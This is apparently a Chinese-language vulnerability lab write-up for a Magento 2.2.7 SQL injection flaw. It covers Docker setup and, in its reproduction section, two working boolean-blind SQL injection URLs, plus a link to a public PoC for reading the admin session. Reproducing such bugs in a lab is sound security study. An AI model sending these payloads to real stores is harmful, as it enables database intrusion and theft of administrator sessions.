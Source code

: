 # Magento 2.2 SQL注入漏洞

Magento（麦进斗）是一款新的专业开源电子商务平台，采用php进行开发，使用Zend Framework框架。设计得非常灵活，具有模块化架构体系和丰富的功能。

其prepareSqlCondition函数存在一处二次格式化字符串的bug，导致引入了非预期的单引号，造成SQL注入漏洞。

参考链接：

- https://www.ambionics.io/blog/magento-sqli
- https://devdocs.magento.com/guides/v2.2/release-notes/ReleaseNotes2.2.8CE.html

## 环境搭建

执行如下命令启动Magento 2.2.7：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`，即可看到Magento的安装页面。安装Magento时，数据库地址填写`mysql`，账号密码均为`root`，其他保持默认：

![](1.png)

## 漏洞复现

分别访问如下链接：

- `http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d0)+--+-`
- `http://your-ip:8080/catalog/product_frontend_action/synchronize?type_id=recently_products&ids[0][added_at]=&ids[0][product_id][from]=%3f&ids[0][product_id][to]=)))+OR+(SELECT+1+UNION+SELECT+2+FROM+DUAL+WHERE+1%3d1)+--+-`

可见，在执行`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=1) -- -`和`))) OR (SELECT 1 UNION SELECT 2 FROM DUAL WHERE 1=0) -- -`时，返回的HTTP状态码不同：

![](2.png)

![](3.png)

通过改变OR的条件，即可实现SQL BOOL型盲注。

利用[这个POC](https://github.com/ambionics/magento-exploits)，可以读取管理员的session：

![](4.png)
